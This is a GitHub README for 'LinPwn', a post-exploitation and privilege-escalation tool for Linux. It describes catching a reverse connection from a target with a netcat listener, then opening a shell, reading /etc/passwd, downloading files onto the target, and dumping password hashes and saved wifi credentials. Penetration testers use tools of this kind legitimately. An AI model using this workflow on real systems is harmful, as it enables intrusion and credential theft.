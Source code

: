 # LinPwn

![LinPwn](https://github.com/3XPL017/LinEnum/blob/master/images/LinPwn.png)
<br>
## About
LinPwn is a interactive tool created to assist you in post exploitation enumeration and privilege escalation.<br>
## Connection
Set your IP and port you want it to connect to in the Connection class.<br>
Place the LinPwn binary on the target machine.<br>
Run `nc -lvp PORT` on your machine and then run LinPwn on the target machine to get a connection.
## Usage
1. shell - This command Executes /bin/sh<br>
Example usage: `(LinPwn: Shell) > id`<br> 
Type exit to return to LinPwn.<br>
2. readfile - This command will print the contents of a file.<br>
Example usage: `(LinPwn: ReadFile)> /etc/passwd`<br>
Type exit to return to LinPwn.<br>
3. enumerate - this command runs LinEnum.sh<br>
Example usage:  `(LinPwn) > enumerate` 
4. download - This command downloads a file on the target machine<br>
Example usage: `(LinPwn: Download) > https://exampleurl.com/file_to_download`
5. wificredz - This command gathers saved wifipasswords
6. hashdump - This command gathers system password hashes
## Compiling
I included a file called build.sh this is optional run `bash build.sh` to view the build options if you wish to use them. 
 
